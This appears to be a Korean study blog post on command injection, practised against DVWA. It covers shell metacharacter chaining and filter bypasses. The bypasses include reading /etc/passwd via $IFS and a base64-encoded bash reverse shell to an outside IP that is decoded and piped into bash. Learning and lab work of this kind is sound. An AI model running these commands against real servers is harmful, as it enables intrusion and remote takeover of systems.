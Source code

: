 ```yaml
---
layout: post
title: "명령어 인젝션 (Command Injection) 공부"
date: 2025-09-22 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

명령어 인젝션은 사용자의 입력값이 서버의 쉘 명령어의 일부로 검증 없이 전달될 때 발생하는 취약점이다. 공격자는 쉘의 특수문자(Metacharacters)를 주입하여 원래의 명령어를 종료시키거나 변조하고 자신이 원하는 새로운 명령어를 실행시킬 수 있다.

이 공격은 [A01: 접근 통제 실패](https://hamap0.github.io/projects/owasp-top-10/2025/08/25/A01_Broken-Access-Control.html) 보고서에서 리버스 쉘을 획득하여 서버 제어권을 장악하는 데 결정적인 역할을 했다.

---

### 2. 주요 공격 기법

공격의 핵심은 쉘 메타 문자를 사용하여 명령어의 흐름을 제어하는 것이다.

*   **`;` (Semicolon):** 앞 명령어의 성공 여부와 관계없이 다음 명령어를 순차적으로 실행한다.
    ```
    ping 127.0.0.1; whoami
    ```
*   **`&&` (Ampersand):** 앞 명령어가 성공적으로 실행되었을 때만 다음 명령어를 실행한다.
    ```
    ping 127.0.0.1 && whoami
    ```
*   **`|` (Pipe):** 앞 명령어의 표준 출력(stdout)을 다음 명령어의 표준 입력(stdin)으로 전달한다.

---

### 3. 필터링 우회 기법

단순한 메타 문자 주입은 방어 로직에 의해 차단될 수 있다. 이때는 필터링 규칙을 우회하는 기법이 필요하다.

#### **공백 문자 필터링 우회**
일부 시스템은 명령어 사이의 공백 문자를 필터링한다. 이때는 공백 대신 쉘의 내부 필드 구분자(Internal Field Separator)인 `$IFS` 변수를 사용할 수 있다.
*   **기본:** `cat /etc/passwd`
*   **우회:** `cat$IFS/etc/passwd`

#### **키워드 필터링 우회 (Base64 인코딩)**
`cat` · `ls` · `nc` 등 특정 명령어 키워드가 필터링될 때 사용된다. 실행할 명령어를 Base64로 인코딩하여 필터링을 우회한 뒤 서버에서 디코딩하여 실행시킨다.
1.  **공격자 PC에서 페이로드 인코딩:**
    ```bash
    # 실행할 리버스 쉘 명령어를 Base64로 인코딩 (-w0 옵션은 줄바꿈 없이 한 줄로 출력)
    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
    ```
2.  **대상 서버에서 디코딩 및 실행:**
    인코딩된 문자열을 `echo`로 출력하고 파이프(`|`)를 통해 `base64 -d`로 디코딩한 뒤 다시 파이프를 통해 `bash`로 실행시킨다.
    ```bash
    # DVWA 입력값:
    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
    ```
[여기에 Base64 인코딩을 이용한 RCE 성공 이미지 삽입]

이 방식은 필터링이 복잡할수록 유용하며 `A01` 보고서에서 서버 제어권을 획득할 때 사용된 핵심 기법이다.

<hr class="short-rule">
